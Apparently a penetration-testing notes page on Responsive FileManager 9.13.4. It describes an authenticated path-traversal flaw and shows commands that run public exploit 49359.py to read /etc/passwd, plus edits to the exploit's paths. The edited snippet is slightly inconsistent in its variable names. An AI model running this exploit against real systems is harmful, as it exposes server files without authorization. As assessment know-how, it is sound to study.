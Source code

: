 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Responsive Filemanager

Responsive FileManager is a web-based file management plugin designed to integrate with rich text editors like TinyMCE or CKEditor. It provides an interface for uploading, browsing, renaming, and managing files and directories on the server through a browser. This tool is commonly used in content management systems (CMS) and custom web applications to allow users or administrators to handle media assets and documents. When improperly configured or left unpatched, it can expose sensitive file operations directly to the web, making it a potential attack surface during a web application assessment.

## LFI

Version `9.13.4` and earlier has improper input validation on the `path` parameter. This allows attackers with a valid session (**authenticated** access) to perform **directory traversal** by injecting relative path sequences such as `../../..`, effectively escaping the intended file browsing directory and accessing arbitrary files on the server.&#x20;

{% code overflow="wrap" %}
```bash
$ searchsploit responsive file manager 9.13.4
Responsive FileManager 9.13.4 - 'path' Path Traversal | php/webapps/49359.py

$ python3 49359.py http://<target-IP>/filemanager PHPSESSID=<value> /etc/passwd
[*] Copy Clipboard
[-] Paste False
UnboundLocalError: cannot access local variable 'paste_result' where it is not associated with a value

# Check the paths on the below functions
def paste_clipboard(url, session_cookie):
        # Changed path
        url_paste = "%s/filemanager/execute.php?action=paste_clipboard" % (url)

def read_file(url, file_name):
        # Changed path
        url_path = "%s/filemanager/Documents/%s" % (url,name_file)
        
# Successful execution of the PoC will copy the target file within Documents (can be seen on the UI or in an SMB share in case of a PHP file
$ python3 49359.py http://apex PHPSESSID=vk5ofpj43e0ph77modoki4uo1s /etc/passwd
```
{% endcode %}
